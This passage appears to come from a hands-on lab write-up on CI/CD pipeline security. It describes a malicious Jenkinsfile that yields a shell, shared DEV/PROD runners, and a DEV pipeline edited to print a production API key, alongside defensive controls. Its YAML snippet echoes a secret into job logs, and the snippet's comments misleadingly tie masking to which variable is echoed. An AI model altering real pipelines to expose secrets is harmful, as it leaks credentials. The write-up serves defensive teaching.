

A merge request then triggers the webhook. Jenkins pulls the modified repository, processes the malicious `Jenkinsfile`, and executes it on the build agent.

The resulting shell demonstrates the core problem: **a build pipeline is remote code execution by design**. If untrusted users can influence what gets executed, the build server becomes part of the attack path.

**Limiting branch access is another helpful layer of security**



### Protecting The Pipeline

The solution is not simply "use merge requests". The entire path from code change to execution needs access controls.

A strong configuration should ensure that sensitive branches require review, trusted runners execute sensitive jobs, and no single developer can both submit and approve their own change.

```text
Developer Change
      │
      ↓
Merge Request
      │
      ↓
Security / Code Review
      │
      ↓
Approval Gate
      │
      ↓
Trusted Runner
      │
      ↓
    Build
      │
      ↓
    Deploy
```

Runner tags can also restrict which runners are permitted to execute particular jobs. This prevents sensitive jobs from being picked up by arbitrary runners.

# One Runner, Multiple Environments

The next weakness appears when development and production share the same runner.

The `DEV` and `PROD` environments may have completely different security requirements, but if both builds execute on the same compromised runner, compromising DEV can provide a path toward PROD.

In the exercise, the production pipeline and development pipeline both use the same runner.

```text
             Shared Runner
             /           \
           DEV           PROD
            │              │
            └──────┬───────┘
                   │
             Single Trust
              Boundary
```

If we compromise the runner through our DEV access, we can potentially interact with the production build as well.

The fix is **environment segregation**.

```text
DEV
 │
 └── DEV Runner
       │
       └── DEV Resources


PROD
 │
 └── PROD Runner
       │
       └── PROD Resources
```

Separate runners, runner tags, network boundaries, and protected environments reduce the chance that a compromise in one environment crosses into another.


# One Secret To Rule Them All

Segregating DEV and PROD runners solves one problem, but the separation is incomplete if both environments can access the same secrets. GitLab CI/CD variables must be scoped just as carefully as the runners themselves.


In the `environments` repository, the production deployment uses an `API_KEY` variable. As Ana (Dev), we cannot directly list the variables, but inspecting the DEV branch's CI configuration reveals that it uses a different variable:

**Production env API key**



**Dev env API key**




```text
PROD
 │
 └── API_KEY

DEV
 │
 └── API_KEY_DEV
```

We can modify the DEV pipeline to reference the production `API_KEY` instead of `API_KEY_DEV` and print its value during the build. If the DEV job can retrieve the production variable, the environment segregation has effectively been bypassed.

```text 
DEV Pipeline
     │
     ├── Request API_KEY
     │
     ↓
GitLab CI/CD Variables
     │
     └── PROD Secret
            │
            ↓
        DEV Build
```

The fix is to give secrets the same isolation applied to runners. Production variables should be restricted to the appropriate protected environments and branches, while sensitive values should use GitLab's **Masked** option so they are not exposed in job logs. Access to variables and pipeline logs should also follow least privilege. For example, if you have a variable named MY_SECRET_KEY, you can use it like this:

my_job:
  script:
    - echo "$MY_SECRET_KEY" # This will expose the secret
    - echo "masked: $CI_JOB_TOKEN" # This will mask the secret


Most importantly, masking is not a substitute for access control. A secret that is properly hidden in logs is still compromised if an untrusted DEV pipeline is allowed to retrieve it in the first place.

# From Code To Lessons

The attacks in this exercise follow a common pattern:

```text
Weak Source Controls
        ↓
Untrusted Code Change
        ↓
Pipeline Execution
        ↓
Compromised Runner
        ↓
Cross-Environment Access
        ↓
Exposed Build Secrets
```

The practical controls map directly to those attack paths: protect critical branches, enforce independent approvals, restrict trusted runners, isolate DEV and PROD, use proper secret management, mask sensitive variables, scan repositories, and keep build infrastructure patched.

The biggest lesson is that **the CI/CD pipeline itself is part of the application's attack surface**. Securing only the application code is not enough when the system responsible for building and deploying that code can itself be manipulated.

---

> QXV0aG9yOiBodHRwczovL2dpdGh1Yi5jb20vaGFzaC01NDU=
